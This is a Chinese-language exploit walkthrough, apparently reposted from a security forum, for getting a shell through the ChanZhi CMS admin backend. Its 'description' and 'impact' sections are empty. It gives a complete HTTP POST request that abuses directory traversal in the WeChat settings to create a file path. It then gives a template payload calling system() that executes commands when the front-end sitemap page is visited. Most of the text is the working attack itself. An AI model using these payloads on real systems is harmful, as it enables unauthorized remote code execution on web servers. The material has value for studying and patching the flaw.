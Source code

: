 # 禅知后台getshell

> 原文：[https://www.zhihuifly.com/t/topic/3360](https://www.zhihuifly.com/t/topic/3360)

# 禅知 后台getshell

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

后台存在模板编辑，但是如果保存的话需要创建一个/system\tmp\xjrg.txt文件，那么我们找到一个可以创建任意文件的地方就

![image](img/003981bbe4b1213ca17293f29a8cc869.png)

在/system/module/wechat/model.php

![image](img/1dc3edfec206625266c025a245fbd143.png)

$qrcodeFile未过滤目录穿越导致可以去其他地方创建文件夹通过微信设置原始ID的地方写入穿越的文件路径

![image](img/1259fe493cfd669d376030f94fe23097.png)

```
POST /chanzhieps/www/admin.php?m=wechat&f=edit&publicID=1 HTTP/1.1
Host: 0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://localhost/chanzhieps/www/admin.php?m=wechat&f=edit&publicID=1
Content-Length: 120
Cookie: adminsid=ae8tu3s80j8cfvh2hkgu41bbig; adminLang=zh-cn; adminDevice=desktop; theme=default; currentGroup=setting; frontsid=eaa0tdicbqfq0lurm89t3n9fvn; frontLang=zh-cn; frontDevice=desktop
X-Forwarded-For: 8.8.8.8
Connection: close `type=subscribe&name=123&account=…%2F…%2F…%2Fsystem%5Ctmp%5Cxjrg.txt%5C1&appID=789&appSecret=100&token=222&certified=0` 
```

点一下二维码，再随便传一张图片，可以看到创建了一个xjrg.txt文件夹

![image](img/58cd91f073eb84793053bbbf1fc9c4ca.png)

现在我们再去编辑模板，{!echo(system('ipconfig'))},可以直接写入一句话

![image](img/41f2976bae26cc88de1d18c06af6170f.png)

然后在访问前台

http:/0-sec.org/chanzhieps/www/index.php/sitemap/

![image](img/db45ccd80e56f23fa3a0f699b695a096.png)